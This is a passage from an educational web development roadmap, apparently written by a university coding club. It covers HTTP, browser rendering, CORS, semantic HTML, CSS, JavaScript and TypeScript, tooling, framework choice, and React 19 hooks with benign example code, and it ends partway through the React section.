

+++
title = "Web Development Master Roadmap"
weight = 1
description = "A comprehensive, framework-neutral guide to mastering web development as an engineering discipline: the web platform, HTML, CSS, JavaScript, TypeScript, the frontend framework landscape, backend engineering, databases, security, testing, performance, and production deployment."

[extra]
difficulty = "Beginner to Advanced"
estimated_time = "Ongoing Practice (4-6 months for core foundation)"
prerequisites = "Basic computer literacy; no prior programming experience required"
badge = "MASTER"
toc_expand = true

# Landing page carousel
carousel_image = "roadmaps/web-development-cyber.webp"
carousel_title = "Web Development"
carousel_description = "Master web development as an engineering discipline: the web platform, HTML, CSS, JavaScript, TypeScript, the framework landscape, backend engineering, databases, security, testing, and production deployment."
+++

The web is the largest software platform ever created. Every product you interact with daily—social feeds, banking portals, dashboards, design tools like Figma, and document editors like Google Docs—is a web application running on standards maintained by the World Wide Web Consortium and WHATWG, shipped by every browser on Earth.

For college students, web development offers the fastest feedback loop in software engineering: you write code, refresh the browser, and see the result instantly. It is also the most employable specialization in the industry—and its skills chain into everything else the CC ecosystem teaches: React Native for mobile, Electron and Tauri for desktop, Node.js and its siblings for backend infrastructure.

However, web development in 2026 is dramatically different from the tutorials of 2018. Modern engineering is **TypeScript-first**, built around component frameworks and meta-frameworks like Next.js, styled with utility systems like Tailwind CSS v4, bundled by **Vite** (or served by runtimes like **Bun**), tested with **Vitest** and **Playwright**, secured against XSS and CSRF by design, and deployed on edge platforms with CI/CD pipelines.

This master roadmap is designed by the **Computer Coding Club (CC), MNNIT Allahabad** with one philosophy: **do not just teach students how to assemble a popular JavaScript stack — teach them how the web works, how web applications are designed and built, and how to make informed engineering decisions.** Frameworks are introduced as informed choices, not defaults to memorize.

---

## 1. Orientation: The Modern Web Landscape

Before writing code, you must understand how the web platform works, how modern applications are rendered, and which specialization paths exist.

### 1.1 Internet vs. World Wide Web

* **The Internet** is the global network infrastructure: physical cables, routers, switches, and the TCP/IP protocol family that moves packets between machines.
* **The World Wide Web** is one service running on that infrastructure: documents and applications identified by URLs and transferred over HTTP(S). Email, SSH, and game traffic also ride the internet — the web is its most visible layer.
* As a web developer you work *on* the web but *depend on* the internet; the [System Administration Roadmap](@/roadmaps/sysadmin.md) owns the infrastructure layer beneath it.

### 1.2 How the Web Works



* **The Client**: The browser—your rendering engine (Blink, Gecko, WebKit), JavaScript runtime, and UI. Modern browsers expose standardized APIs (DOM, Fetch, WebGL, WebAssembly) that work identically across platforms.
* **The Server**: Where application logic, databases, and business rules live. It responds to HTTP requests with documents (traditional sites) or JSON data (modern applications).
* **HTTP/HTTPS**: The request-response protocol of the web. Modern web traffic is exclusively **HTTPS** (TLS-encrypted), HTTP/2 or HTTP/3 multiplexed, and cached aggressively at CDN edges.

### 1.3 The HTTP Request Lifecycle in Detail

Understanding what one "page load" actually triggers is the foundation of everything that follows:


graph TD
    URL["User enters a URL"] --> DNS["DNS Resolution<br/>(domain to IP address)"]
    DNS --> TCP["TCP Handshake + TLS Negotiation<br/>(secure channel established)"]
    TCP --> Request["HTTP Request Sent<br/>(method, path, headers, cookies)"]
    Request --> Server["Server / CDN Processing<br/>(cache hit? application logic? database?)"]
    Server --> Response["HTTP Response<br/>(status code, headers, body)"]
    Response --> Parse["Browser Parses HTML<br/>(discovers CSS, JS, images)"]
    Parse --> Render["Render Tree Built<br/>(layout, paint, composite)"]
    Render --> Assets["Sub-resource Requests<br/>(parallel asset downloads)"]
    Assets --> Interact["Page Interactive<br/>(JS executes, event listeners bound)"]


Every layer of this pipeline has a tuning knob you will learn: DNS prefetching, TLS session resumption, cache headers, compression, asset prioritization, and render-blocking resource elimination.

#### The HTTP Methods You Will Actually Use

| Method | Purpose | Idempotent? | Typical Use |
| :--- | :--- | :--- | :--- |
| **`GET`** | Retrieve a resource | Yes | Loading pages, fetching JSON |
| **`POST`** | Create a resource / submit data | No | Form submissions, creating records |
| **`PUT`** | Replace a resource entirely | Yes | Full profile updates |
| **`PATCH`** | Modify part of a resource | No | Toggling one field |
| **`DELETE`** | Remove a resource | Yes | Deleting a note or account |

#### Status Codes Worth Memorizing

* **200** OK · **201** Created · **204** No Content — success family.
* **301/308** Permanent redirect · **304** Not Modified (cache!) — redirection and caching.
* **400** Bad Request · **401** Unauthorized · **403** Forbidden · **404** Not Found · **422** Unprocessable — client errors.
* **500** Internal Server Error · **502/504** Gateway issues — server errors (your bug, or your infrastructure's).

### 1.4 The Three Specializations

| Specialization | Focus | Core Technologies |
| :--- | :--- | :--- |
| **Frontend** | Everything the user sees and interacts with: layouts, interactivity, accessibility, performance | HTML, CSS, JavaScript, TypeScript, a component framework |
| **Backend** | Application logic, APIs, authentication, databases, integrations | Node.js, Python, Go, Rust, Java — plus PostgreSQL, Redis |
| **Full-Stack** | End-to-end product engineering across both layers | All of the above, plus deployment and DevOps basics |


**The 2026 Reality**: The line between frontend and backend is blurring. Meta-frameworks like Next.js render frontend components **on the server** (React Server Components), and platforms like Cloudflare Workers run application code at CDN edge locations. Modern full-stack developers understand the entire request lifecycle.


### 1.5 Rendering Strategies: The Most Important Modern Distinction

Where and when your HTML is generated defines your application's performance profile:


graph TD
    Render["Rendering Strategy"] --> CSR["CSR — Client-Side Rendering<br/>Browser downloads an empty shell + JS bundle,<br/>then renders everything locally"]
    Render --> SSR["SSR — Server-Side Rendering<br/>Server generates full HTML per request"]
    Render --> SSG["SSG — Static Site Generation<br/>HTML pre-built at deploy time"]
    Render --> ISR["ISR — Incremental Static Regeneration<br/>Static pages refreshed in the background"]


* **CSR**: Ideal for highly interactive dashboards and tools (like Figma). Slower first paint, fastest subsequent interactions.
* **SSR**: Ideal for dynamic, personalized pages. Fast first paint, server load per request.
* **SSG**: Ideal for blogs, marketing sites, documentation. Fastest possible delivery from a CDN.
* **ISR**: Combines SSG speed with periodic freshness — the default choice for e-commerce and content sites.

Modern meta-frameworks (Next.js, Nuxt, SvelteKit, Astro) let you **mix these strategies per route** — a marketing page can be static while the dashboard behind it renders client-side.

### 1.6 The Five Career Directions

"Web developer" is not one job. Understanding the directions early helps you weight your learning:

| Direction | What You Do | Weight Your Learning Toward |
| :--- | :--- | :--- |
| **Frontend Developer** | Interfaces, browser behavior, UI architecture, accessibility, performance | Stages 2–4 deeply, Stage 7 deeply, Stage 13 |
| **Backend Developer** | APIs, business logic, databases, authentication, reliability | Stages 5–6, then Stages 10–12 deeply |
| **Full-Stack Developer** | Complete applications across both layers | All stages; depth in your chosen framework + one backend |
| **Web Platform / Advanced Frontend** | Browser APIs, rendering internals, PWAs, performance engineering | Stage 2 deeply, Stage 13, service workers |
| **Web Infrastructure / Platform** | Hosting, deployment, observability, production operations | Stage 14, then the [DevOps](@/roadmaps/devops.md) and [SysAdmin](@/roadmaps/sysadmin.md) roadmaps |

Every direction starts from the same foundation: Stages 2 through 6 are mandatory for all of them. Decide your direction *after* the foundations, not before.

### 1.7 Where Are You Starting From?


graph TD
    Start["Your Starting Point"] --> T1["Track A: Complete Beginner"]
    Start --> T2["Track B: Some HTML/CSS Exposure"]
    Start --> T3["Track C: Developer in Another Language (Python / Java / C++)"]
    Start --> T4["Track D: Mobile Developer (React Native)"]
    Start --> T5["Track E: Backend Developer (APIs, Databases)"]

    T1 --> R1["Master HTML, CSS, and JavaScript fundamentals first — do not skip to frameworks"]
    T2 --> R2["Close the gap: responsive layout, accessibility, then deep JavaScript"]
    T3 --> R3["Map your language skills to TypeScript and learn the DOM/browser model"]
    T4 --> R4["Learn the web DOM layer under React Native; then meta-frameworks for full-stack web"]
    T5 --> R5["Skim frontend stages for context; go deep on backend discipline, databases, and security"]

    R1 --> Core["Core Milestone: Deploy a responsive, accessible static site"]
    R2 --> Core
    R3 --> Core
    R4 --> Core
    R5 --> Core


* **Track A (Complete Beginners)**: This roadmap is your starting point. Follow the stages in order — Stage 2 exists precisely so that frameworks make sense later instead of feeling like magic.
* **Track B (Some HTML/CSS Exposure)**: Skim Stage 2, but do not skip modern CSS (Grid, container queries) or the JavaScript fundamentals — most self-taught students have fragile JS foundations that collapse the moment frameworks arrive.
* **Track C (Developers from other languages)**: Your programming fundamentals transfer directly. Focus on the browser-specific concepts (DOM, event loop, async browser APIs) and TypeScript's structural typing. Backend developers: see Stage 10's multi-language landscape — Java maps to Spring Boot, Python to Django/FastAPI, and so on.
* **Track D (React Native developers)**: You already know React — the components, hooks, and state flow are identical. Learn the DOM, CSS layout in depth, and the server-side patterns to become full-stack.
* **Track E (Backend developers)**: Frontend context matters even for you — you will debug CORS, cookies, and caching issues that originate in browser behavior. Then go deep on Stage 10 (backend discipline) and Stage 11 (databases), which treat backend as an engineering discipline rather than a framework tutorial.

---

## 2. Stage 1: Web Platform & Browser Engineering

Students do not need to become browser engineers — but every production debugging session, performance optimization, and security fix depends on understanding the platform your applications depend on.

### 2.1 How Browsers Render Pages

* **Parsing**: The browser parses HTML into the **DOM** (Document Object Model) tree and CSS into the CSSOM.
* **Render pipeline**: Style calculation → layout (geometry) → paint (pixels) → composite (layers). Animations that only touch `transform` and `opacity` skip layout and paint — which is why they are cheap and everything else can jank.
* **The critical rendering path**: Blocking CSS and synchronous scripts delay first paint. This is the root of every "page loads slowly" issue you will ever debug.
* **Reflow vs. repaint**: Reading layout properties (`offsetHeight`) in a loop can force repeated reflows — the classic performance killer in DOM-heavy code.

### 2.2 Same-Origin Policy & CORS

The browser's fundamental security boundary:

* **Same-Origin Policy**: Scripts on `https://app.cc-club.in` cannot read responses from `https://api.cc-club.in` unless that server explicitly allows it. This protects users from malicious sites reading their data on your site.
* **CORS (Cross-Origin Resource Sharing)**: The mechanism servers use to *opt in* to cross-origin access via response headers (`Access-Control-Allow-Origin`).
* **The practical consequence**: A frontend on `localhost:5173` calling your API on `api.cc-club.in` will fail with CORS errors until the server configures headers. Every web developer hits this wall in week one — now you know it is a *server-side* configuration, not a frontend bug.
* CORS governs *reading* responses; it does not protect your server from *receiving* requests. CSRF protection is a separate concern (Stage 12).

### 2.3 Service Workers & Progressive Web Apps

* **Service Workers**: A programmable network proxy running in the background — intercepting requests, enabling offline caching, background sync, and push notifications.
* **PWAs**: Web applications that install to a home screen via a web manifest, work offline through service-worker caching strategies (cache-first for assets, network-first for data), and feel native without app stores.
* **When it matters**: Offline-first tools, field-data-collection apps, and reducing repeat-visit latency. Start simple: a service worker that precaches your app shell takes under an hour to add.

### 2.4 Browser Compatibility & Web Standards

* The web standards bodies: **WHATWG** maintains the HTML Living Standard and Fetch/URL/DOM standards; **W3C** maintains CSS and accessibility specifications; **Ecma International** standardizes JavaScript (ECMAScript).
* **Baseline compatibility**: Modern browsers converge rapidly on new features (check [web.dev Baseline](https://web.dev/baseline) for what is safe to use). The era of supporting Internet Explorer is over, but enterprise and government users in India still include older Android WebViews — know your audience.
* **Progressive enhancement**: Build the core experience on HTML that works everywhere, then layer JavaScript enhancements. It is both a resilience strategy and an accessibility strategy.

---

## 3. Stage 2: Semantic HTML — Structure With Meaning

HTML is not formatting — it is a document **semantics** layer that browsers, search engines, and screen readers all interpret. Frameworks come and go; HTML is permanent.

### 3.1 Document Structure & Landmarks

* **Semantic landmarks**: `header`, `nav`, `main`, `article`, `section`, `aside`, `footer` — assistive technology navigates by these landmarks, and search engines weight content inside them. Anonymous `<div>` soup destroys this map.
* **Headings are an outline**: One `h1` per page, hierarchical `h2`→`h3` nesting without skipping levels. Screen reader users literally traverse pages by heading level.
* **Forms & Inputs**: `form`, `input` types (`email`, `number`, `date`), `label` association via `for`/`id`, native validation attributes (`required`, `pattern`, `min`/`max`), and `fieldset`/`legend` for grouping.
* **Media & Embeds**: `img` with meaningful `alt` text, `loading="lazy"` for below-fold images, responsive images via `srcset`/`sizes`, `video`/`audio` with captions.
* **Metadata**: `<title>`, meta descriptions, Open Graph tags for social sharing, and `<link rel="icon">`.

### 3.2 SEO Foundations

* Search engines read your semantic HTML: landmarks, heading outline, descriptive link text, and structured data (`schema.org`) determine how content ranks and previews.
* Metadata (title, description, Open Graph) controls how pages appear in search results and social shares.
* Client-side-rendered applications must ensure their content is reachable — modern search engines execute JavaScript, but server-rendered HTML remains the reliable default for content pages (Stage 8 covers how).

### 3.3 Accessibility Is a Property of Correct HTML


**Why Semantic HTML Matters**: Screen readers announce a `<button>` as "button, clickable" and give it keyboard activation for free. A `<div>` styled to look like a button is invisible to assistive technology and breaks keyboard navigation. Accessibility is not a feature you add later — it is a property of correct HTML.


* Every interactive element reachable by keyboard; visible focus states never removed without replacement.
* Meaningful `alt` text (decorative images get `alt=""` so screen readers skip them).
* `aria-label`/`aria-expanded`/`aria-live` only where native semantics fall short — ARIA is a patch layer, not a foundation.

---

## 4. Stage 3: Modern CSS — Layout, Architecture & Responsive Design

### 4.1 The Cascade, Specificity & The Box Model

Ninety percent of "why isn't my style applying?" is one of these three:

| Selector | Specificity Weight | Example |
| :--- | :--- | :--- |
| Inline `style` attribute | Highest (avoid in practice) | `style="color: red"` |
| ID | 100 | `#submit-btn` |
| Class / pseudo-class / attribute | 10 | `.card`, `:hover`, `[type="email"]` |
| Element / pseudo-element | 1 | `p`, `::before` |
| Universal `*` / inherited | 0 | `*`, inherited font styles |

* **The box model**: `content` + `padding` + `border` + `margin`. Every modern project starts with `box-sizing: border-box` so widths behave intuitively.
* **Margin collapse** and **stacking contexts** (`z-index` only works within the same stacking context) round out the classic confusion trio.
* **Inheritance**: Some properties (color, font) inherit from parents by default; layout properties do not. Knowing which is which prevents "why did my child lose its styles?" debugging sessions.

### 4.2 Flexbox & Grid: The Two Layout Systems

* **Flexbox** — one-dimensional layout: navigation bars, card rows, centering. Key properties: `justify-content` (main axis), `align-items` (cross axis), `gap`, `flex: 1` for proportional growth.
* **Grid** — two-dimensional layout: page shells, dashboards, media objects. Key properties: `grid-template-columns`, `gap`, `repeat(auto-fit, minmax(240px, 1fr))` for responsive card grids with zero media queries.
* **Decision rule**: If content flows in one direction, use Flexbox. If you are placing items in rows *and* columns, use Grid.
* **Positioning & stacking**: `position: relative/absolute/fixed/sticky` — sticky headers, overlay modals, and the stacking-context pitfalls that come with them.

### 4.3 Responsive Design & Modern Capabilities

* **Mobile-first media queries**: Write the mobile layout, then add `@media (min-width: ...)` enhancements.
* **Fluid typography and spacing**: `clamp(1rem, 2.5vw, 1.5rem)` removes breakpoint jumping.
* **Container queries**: Components that respond to *their container's* width, not the viewport — the modern standard for reusable card and widget components.
* **Custom properties (design tokens)**: `--color-primary: #E67E22;` — theming, dark mode via `prefers-color-scheme`, and consistent design systems all hang off tokens.
* **Typography & visual hierarchy**: Type scales, line-height discipline, and measure (line length) — hierarchy is a typographic skill before it is a component skill.
* **Transitions & animations**: CSS transitions for state changes, `@keyframes` for sequences, and animating only `transform`/`opacity` to stay on the compositor thread.
* **Modern capabilities worth knowing**: Cascade layers (`@layer`), the `:has()` parent selector, `aspect-ratio`, logical properties (`margin-inline`), `text-wrap: balance`, and `color-mix()`.

---

## 5. Stage 4: Modern JavaScript — The Language of the Web

JavaScript is the only language every browser executes — and (through Node.js, Bun, Deno, and their relatives) a first-class backend language too. A weak JS foundation is the single most common cause of "I can follow tutorials but can't build anything myself."

### 5.1 Core Language Features You Will Use Daily

* **Variables & immutability**: `const` by default, `let` when reassignment is required; `var` is legacy.
* **Functions & scope**: Arrow functions (lexical `this`), default/rest parameters, destructuring (`const { title, stars = 0 } = repo`), and **closures** — functions capturing their surrounding scope, the mechanism behind every callback, hook, and event handler you will ever write.
* **Objects & prototypes**: Object literals, property shorthand, and the prototype chain that underlies classes. Modern code uses `class` syntax; the prototype model explains how it works.
* **Collections**: `map`, `filter`, `reduce`, `find`, `some`/`every`, `Set` and `Map` for uniqueness and keyed lookups.
* **Modules**: `import`/`export` — the browser's native module system and the foundation of all bundling.
* **Modern operators**: Optional chaining (`user?.profile?.avatar`), nullish coalescing (`count ?? 0`), spread/rest (`[...items, newItem]`).

### 5.2 The Event Loop: Why JavaScript Feels Different


**The Event Loop Is Why JavaScript Feels Different**: JavaScript runs on a single thread. Long-running synchronous work blocks all rendering and interaction — the reason `async`/`await` exists. If you internalize the event loop now, React's concurrent rendering and Node.js's non-blocking I/O will both feel obvious later.


* The call stack runs synchronous code; when it empties, the event loop pulls queued callbacks (timers, network responses, DOM events) onto the stack.
* **Microtasks** (Promise callbacks) run before the next macrotask — this ordering explains subtle timing bugs.

### 5.3 Asynchronous JavaScript: Promises & `async`/`await`

```javascript
// 1. Fetch with proper error handling — the pattern behind every framework's data layer
async function loadContributors(org) {
  try {
    const response = await fetch(`https://api.github.com/orgs/${org}/repos`, {
      headers: { Accept: 'application/vnd.github+json' },
    });

    if (!response.ok) {
      // fetch does NOT reject on HTTP errors — you must check response.ok yourself
      throw new Error(`GitHub API responded ${response.status}`);
    }

    const repositories = await response.json();
    return repositories.map((repo) => ({
      name: repo.name,
      stars: repo.stargazers_count,
      language: repo.language ?? 'Unknown',
    }));
  } catch (error) {
    console.error('Failed to load repositories:', error.message);
    return [];
  }
}

// 2. Concurrent requests — Promise.all runs them in parallel, not sequentially
const [repos, events] = await Promise.all([
  loadContributors('CC-MNNIT'),
  fetchUserEvents('cc-club-bot'),
]);
```

* **`fetch` does not throw on HTTP error statuses** — checking `response.ok` is your responsibility. This is the most common beginner data-fetching bug in the entire ecosystem.
* **Sequential vs concurrent `await`**: Two awaited calls in a row run one-after-the-other; `Promise.all` runs them simultaneously. In hot paths, this distinction is free performance.
* **Error handling is a discipline**: Try/catch around every `await` boundary, typed error objects, and never swallowing errors silently.

### 5.4 The DOM, Events & Browser APIs

* **DOM manipulation**: `querySelector`/`querySelectorAll`, `createElement`, `classList` (never hand-built `innerHTML` strings with user data — see the security stage).
* **Event handling**: `addEventListener`, event propagation (capture → target → **bubbling**), event delegation (one listener on a parent handling many children), and `event.preventDefault()`.
* **Debouncing & throttling**: Limiting how often expensive handlers run (search inputs, scroll listeners).
* **Browser APIs worth knowing**: IntersectionObserver (lazy loading), ResizeObserver, Clipboard, Geolocation, History API (routing), WebStorage.

| Storage Mechanism | Capacity | Lifespan | Sent to Server? | Best For |
| :--- | :--- | :--- | :--- | :--- |
| **`localStorage`** | ~5 MB | Forever (until cleared) | No | Theme preferences, UI state |
| **`sessionStorage`** | ~5 MB | Current tab session | No | Multi-step form state |
| **Cookies** | ~4 KB | Configurable expiry | Yes (every request) | Session identifiers (HTTP-only, Secure) |
| **IndexedDB** | Large | Forever | No | Offline-first application data |

### 5.5 Browser Developer Tools: Your Primary Instrument

Learn Chrome/Firefox DevTools deeply — they are your diagnostic microscope:
* **Elements panel**: Live DOM inspection, CSS editing, box-model visualization.
* **Console**: Logging, error stack traces, and API experimentation.
* **Network panel**: Request inspection, payloads, headers, timing waterfalls, cache behavior.
* **Sources & Breakpoints**: Real debugging — breakpoints and watch expressions, not `console.log` archaeology.
* **Lighthouse**: Automated audits for performance, accessibility, best practices, and SEO.

---

## 6. Stage 5: TypeScript — The Industry Standard

Every serious web codebase in 2026 is written in TypeScript. It is JavaScript with a compile-time type system that catches bugs before the browser ever runs your code — and it is not an optional final-stage topic: learn it alongside the fundamentals.

### 6.1 Essential TypeScript for Web Development

```typescript
// 1. Typing data from APIs — model your server responses explicitly
interface Contributor {
  id: number;
  username: string;
  contributionsCount: number;
  avatarUrl?: string; // optional property
}

// 2. Discriminated unions for state — impossible in plain JavaScript
type RequestState<T> =
  | { status: 'idle' }
  | { status: 'loading' }
  | { status: 'success'; data: T }
  | { status: 'error'; message: string };

// 3. Narrowing: TypeScript tracks which case you are in
function renderState(state: RequestState<Contributor[]>): string {
  switch (state.status) {
    case 'idle': return 'Start exploring';
    case 'loading': return 'Loading...';
    case 'success': return `Found ${state.data.length} contributors`;
    case 'error': return state.message;
  }
}

// 4. Utility types for everyday transformations
type ContributorDraft = Omit<Contributor, 'id'>;
type ContributorPreview = Pick<Contributor, 'id' | 'username' | 'avatarUrl'>;
```

### 6.2 Generics: Type-Safe Reusability

```typescript
// A generic API wrapper — the caller decides the response shape
async function apiGet<T>(url: string): Promise<T> {
  const response = await fetch(url, { headers: { Accept: 'application/json' } });
  if (!response.ok) throw new Error(`Request failed: ${response.status}`);
  return (await response.json()) as T;
}

// Usage: the return value is fully typed, no `as` casting at call sites
const projects = await apiGet<ProjectSummary[]>('/api/projects');
const settings = await apiGet<AppSettings>('/api/settings');
```

* **Why static typing matters at scale**: Refactoring a 50-file application without types means trusting grep and hope. With types, the compiler finds every breakage before you run anything.
* **Configuration**: Start projects with strict mode (`"strict": true` in `tsconfig.json`) — it is harder for two weeks and dramatically better forever.
* **Structural Typing**: TypeScript compares shapes, not names — different from Java/C# nominal typing.
* **`unknown` over `any`**: `any` disables the type system entirely; `unknown` forces you to validate before use — the correct type for untrusted API data.

---

## 7. Stage 6: Tooling, Runtimes & Project Workflow

Professional web development is tooling-heavy. Understanding *why* each tool exists — and what each piece of the stack actually *is* — prevents "black box configuration" syndrome.

### 7.1 Distinguishing the Pieces of the Stack


graph TD
    Runtime["JavaScript Runtime<br/>Node.js / Bun / Deno / Browser"] --> Manager["Package Manager<br/>npm / pnpm / yarn / Bun's built-in"]
    Manager --> Bundler["Bundler & Dev Server<br/>Vite / esbuild / Turbopack"]
    Bundler --> Framework["Frontend Framework<br/>React / Vue / Svelte / Astro"]
    Framework --> Meta["Meta-Framework<br/>Next.js / Nuxt / SvelteKit / Astro"]


* **The runtime** executes JavaScript: the browser, **Node.js** (the incumbent), **Bun** (the fast all-in-one runtime + package manager + bundler + test runner), or **Deno** (secure-by-default). Your tooling and backend run on a runtime; your frontend always ends up executing in the browser.
* **The package manager** installs dependencies: `npm` (bundled with Node), `pnpm` (fast, disk-efficient), `yarn`, or Bun's built-in manager.
* **The bundler/dev server** transforms and serves your code: **Vite** (the default choice), esbuild, Turbopack.
* **The framework** structures your UI; the **meta-framework** adds routing and server rendering on top.

### 7.2 Project Workflow Essentials

* **Semantic versioning**: `^4.0.0` = compatible minor updates; `package-lock.json` is committed to Git and drives reproducible installs.
* **Vite** — the default build tool: instant dev server with native ES module hot replacement, optimized production builds, and first-class TypeScript support.
* **Code quality gates**: **ESLint** (with typescript-eslint and framework rules) plus **Prettier** — or **Biome**, the modern Rust-based all-in-one. Run both in CI; never argue about formatting in reviews again.
* **Environment variables**: Frontend code can only see variables the bundler inlines (`import.meta.env.VITE_API_URL`) — everything else stays server-side. Never put secrets in frontend env files; they ship to every visitor.
* **Version control discipline**: Feature branches, meaningful commit messages, and pull requests — see the [Open Source Contribution Roadmap](@/roadmaps/open-source.md) for the complete collaboration workflow.
* **Dependency hygiene**: `npm audit` in CI, automated Dependabot/Renovate update PRs, and locking your lockfile.

---

## 8. Stage 7: Choosing Your Frontend Framework

Frameworks exist to solve real problems: manual DOM synchronization does not scale to complex, stateful UIs. A component framework gives you declarative rendering, state-driven updates, component reuse, and an ecosystem of routing, data, and testing tools.

The modern landscape is genuinely multi-polar. Learn the landscape first, then commit to one track.

### 8.1 The Framework Landscape Evaluated

| Framework | Philosophy & Model | Strengths | Considerations |
| :--- | :--- | :--- | :--- |
| **React 19** | Declarative components, virtual DOM, hooks; Server Components via frameworks | Largest ecosystem and job market; React Native transfer; React Server Components | Learning curve around effects; re-render discipline |
| **Vue 3** | Progressive framework; Composition API; template-based | Gentler learning curve; excellent official docs; strong DX | Smaller (still large) job market than React |
| **Angular 19+** | Full batteries-included platform: DI, RxJX/signals, CLI | Enterprise standardization; opinionated structure | Heaviest learning curve; verbose for small apps |
| **Svelte 5 + SvelteKit** | Compile-time reactivity ("runes"), minimal runtime | Tiny bundles, elegant reactivity, great DX | Smaller ecosystem; fewer enterprise openings |
| **Astro 5** | Islands architecture, zero JS by default, framework-agnostic | Best-in-class content sites; can embed React/Vue islands | Not for highly-interactive app UIs |
| **Solid** | Fine-grained signals, no virtual DOM | Excellent performance model | Smallest ecosystem of the group |

### 8.2 The CC Recommended Track: React

Recommended CC Default

This roadmap teaches the **React track** in depth — as a deliberate, reasoned choice, not an assumption:

* **Ecosystem chain**: React is the foundation of the [React Native roadmap](@/roadmaps/react-native.md) (native mobile) and the frontend layer of Electron/Tauri in the [Desktop roadmap](@/roadmaps/desktop-development.md). Learn it once and three CC roadmaps open up.
* **Peer effect**: Most CC members and mentors work in React — code reviews and collaboration are easier when your stack matches your community's.
* **Job market reality**: React dominates frontend job listings in India and globally.
* **Conceptual transfer**: The component model, hooks, and unidirectional data flow transfer to Vue, Svelte, and SwiftUI/Compose directly. Your second framework takes days, not months.


**The Honest Framing**: The concepts in every following frontend stage — component architecture, state management, routing, data fetching — are framework-agnostic engineering skills expressed in React syntax. A Vue or Svelte developer reads the same stages as concept lessons, translating syntax as they go. If your goals or interests point at Vue, Angular, or Svelte, learn that framework's official tutorial deeply instead of Stage 8, and return here for the framework-agnostic stages.




| Concept (framework-agnostic) | React | Vue 3 | Svelte 5 | Angular |
| :--- | :--- | :--- | :--- | :--- |
| Declarative components | `function Component()` | Single-File `.vue` components | `.svelte` components | Decorated classes / standalone components |
| Local state | `useState` | `ref()` / `reactive()` | `$state` rune | `signal()` |
| Side effects | `useEffect` | `watch()` / `onMounted` | `$effect` rune | Lifecycle hooks |
| Global state | Zustand / Redux | Pinia | Svelte stores | NgRx / signals services |
| Routing | React Router | Vue Router | SvelteKit routing | Angular Router |
| Meta-framework | Next.js | Nuxt | SvelteKit | Analog / Angular Universal |
| Data fetching | TanStack Query | VueUse / TanStack Query | TanStack Query / loads | RxJS resource APIs |

**Official documentation for each track**: [react.dev](https://react.dev/) · [vuejs.org](https://vuejs.org/guide/introduction.html) · [svelte.dev](https://svelte.dev/docs) · [angular.dev](https://angular.dev/) · [astro.build](https://docs.astro.build/)

Whichever track you choose: the milestones in Stage 15 remain valid — implement them in your chosen framework.


---

## 9. Stage 8: Frontend Track — React 19 in Depth

### 9.1 Components, Props & State

```tsx
import { useState } from 'react';

interface ProjectCardProps {
  title: string;
  stars: number;
  isPinned: boolean;
  onTogglePin: () => void;
}

export function ProjectCard({ title, stars, isPinned, onTogglePin }: ProjectCardProps) {
  return (
    <article className="project-card">
      <h3>{title}</h3>
      <p>⭐ {stars} stars</p>
      <button onClick={onTogglePin}>
        {isPinned ? 'Unpin' : 'Pin to top'}
      </button>
    </article>
  );
}
```

* **Declarative UI**: You describe what the UI should look like for any given state; React computes the DOM updates through **reconciliation** — diffing the new element tree against the previous one and applying the minimal patch.
* **Props flow down, events flow up** — the unidirectional data flow that React Native, Vue, and SwiftUI all replicate.
* **Keys on lists**: Stable, unique `key` props (`key={repo.id}`) let React match items across renders; index keys silently corrupt state when lists reorder.
* **Composition over inheritance**: Small components composed into larger ones; custom hooks extract shared logic.
* **Routing & navigation**: Client-side routing (React Router, or file-based routing inside meta-frameworks) turns multi-view applications into single-page apps — with real URL semantics, back-button behavior, and deep links as non-negotiable requirements.

### 9.2 The Hooks You Will Actually Use

| Hook | Purpose | Classic Pitfall It Prevents |
| :--- | :--- | :--- |
| **`useState`** | Local component state | — |
| **`useEffect`** | Synchronize with external systems (network, timers, subscriptions) | Missing cleanup → memory leaks |
| **`useMemo`** | Cache expensive computations | Recomputing on every render |
| **`useCallback`** | Stable function identities for child props | Breaking `React.memo` on children |
| **`useRef`** | Mutable values that persist without re-rendering; DOM access | Using state for values the UI never displays |
| **`useContext`** | Cross-tree data without prop drilling | Overuse → hidden dependencies (prefer composition) |


**The `useEffect` Litmus Test**: Effects synchronize with *external* systems — fetching, subscriptions, timers, DOM APIs. If your effect only transforms state to derive other state, you do not need it: derive during render instead. Fighting this rule produces the "infinite effect loop" that plagues every beginner's first data-fetching component.


### 9.3 Forms & Actions (New in React 19)

```tsx
import { useActionState } from 'react';

async function subscribeAction(previousState, formData) {
  const email = formData.get('email');
  const response = await fetch('/api/subscribe', {
    method: 'POST',
    body: JSON.stringify({ email }),
    headers: { 'Content-Type': 'application/json' },
  });
  if (!response.ok) return { error: 'Subscription failed. Try again.' };
  return { success: true };
}

export function SubscribeForm() {
  const [state, formAction, isPending] = useActionState(subscribeAction, {});
  return (
    <form action={formAction}>
      <input type="email" name="email" required placeholder="you@cc-club.in" />
      <button disabled={isPending}>
        {isPending ? 'Subscribing…' : 'Subscribe'}
      </button>
      {state.error && <p role="alert">{state.error}</p>}
    </form>
  );
}
```

* **Actions** give forms pending states, optimistic updates, and error handling as first-class framework features — replacing the manual `isSubmitting` boilerplate every pre-19 codebase hand-rolled.

### 9.4 Server State: TanStack Query

Manual `useEffect` + `fetch` + loading flags is boilerplate-prone. **TanStack Query** is the industry standard for server state — the pattern the React Native roadmap uses identically:

```tsx
import { useQuery } from '@tanstack/react-query';

export function ContributorList() {
  const { data, isLoading, isError, error, refetch, isRefetching } = useQuery({
    queryKey: ['contributors'],
    queryFn: () => fetch('/api/contributors').then((res) => {
      if (!res.ok) throw new Error('Failed to load contributors');
      return res.json() as Promise<Contributor[]>;
    }),
    staleTime: 1000 * 60 * 5,
  });

  if (isLoading) return <p>Loading contributors…</p>;
  if (isError) return <p role="alert">Error: {error.message}</p>;

  return (
    <ul>
      {data.map((contributor) => (
        <li key={contributor.id}>{contributor.username}</li>
      ))}
    </ul>
  );
}
